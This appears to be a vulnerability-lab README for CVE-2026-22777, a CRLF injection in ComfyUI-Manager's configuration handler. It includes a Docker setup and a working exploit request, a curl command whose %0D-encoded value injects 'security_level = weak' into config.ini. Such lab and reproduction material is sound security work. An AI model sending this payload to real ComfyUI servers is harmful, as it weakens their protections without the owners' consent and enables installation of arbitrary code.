


# ComfyUI-Manager CRLF Injection in Configuration Handler (CVE-2026-22777)

[中文版本(Chinese version)](README.zh-cn.md)

ComfyUI is a professional node-based GUI for Stable Diffusion, serving as a core open-source project in the AI art generation field. ComfyUI-Manager is the official extension manager for ComfyUI, handling the installation of custom nodes, models, and updates.

In versions prior to 3.39.2 (and 4.0.0 through 4.0.4), the `write_config()` function does not sanitize CRLF characters from user-supplied values before writing them to the `config.ini` file. An attacker can inject carriage return (`\r`) or newline (`\n`) characters into HTTP query parameters of configuration endpoints such as `/api/manager/db_mode`, causing arbitrary key-value pairs to be written into the configuration file. This allows an attacker to tamper with security-critical settings — for example, downgrading `security_level` from `normal` to `weak`, which disables restrictions on high-risk operations like installing custom nodes from arbitrary Git URLs. Exploitation requires the ComfyUI instance to be accessible over the network (i.e., started with the `--listen` option).

Note: this vulnerability is distinct from [CVE-2025-67303](https://github.com/vulhub/vulhub/tree/master/comfyui/CVE-2025-67303), which was fixed in ComfyUI-Manager 3.38 by migrating configuration data to a protected `__manager` directory. Even after that fix, the CRLF injection in `write_config()` remained, allowing an attacker to still inject arbitrary configuration values through the API endpoints. This was not addressed until version 3.39.2.

References:

- <https://github.com/Comfy-Org/ComfyUI-Manager/security/advisories/GHSA-562r-8445-54r2>
- <https://nvd.nist.gov/vuln/detail/CVE-2026-22777>

## Environment Setup

Execute the following command to start a ComfyUI server with ComfyUI-Manager 3.39.1:

```
docker compose up -d
```

After the server starts, the ComfyUI web interface will be available at `http://your-ip:8188`.

## Vulnerability Reproduction

First, verify the current configuration by reading the `config.ini` file inside the container:

```bash
docker compose exec web cat /ComfyUI/user/__manager/config.ini
```

The default configuration shows `security_level = normal`, which blocks high-risk operations such as installing custom nodes from arbitrary Git URLs.

To exploit the CRLF injection, send the following request to the `/api/manager/db_mode` endpoint. The `%0D` in the payload is a URL-encoded carriage return character (`\r`), which causes Python's `configparser` to treat everything after it as a new configuration entry:

```
GET /api/manager/db_mode?value=cache%0Dsecurity_level%20=%20weak HTTP/1.1
Host: your-ip:8188
```

This can be sent using curl:

```bash
curl -i "http://your-ip:8188/api/manager/db_mode?value=cache%0Dsecurity_level%20=%20weak"
```



After sending the request, verify that the `security_level` has been injected into the configuration file:

```bash
docker compose exec web cat /ComfyUI/user/__manager/config.ini
```



The configuration file now contains the injected `security_level = weak` entry. When the service restarts or re-reads the configuration, this lowered security level takes effect, allowing operations that were previously blocked.
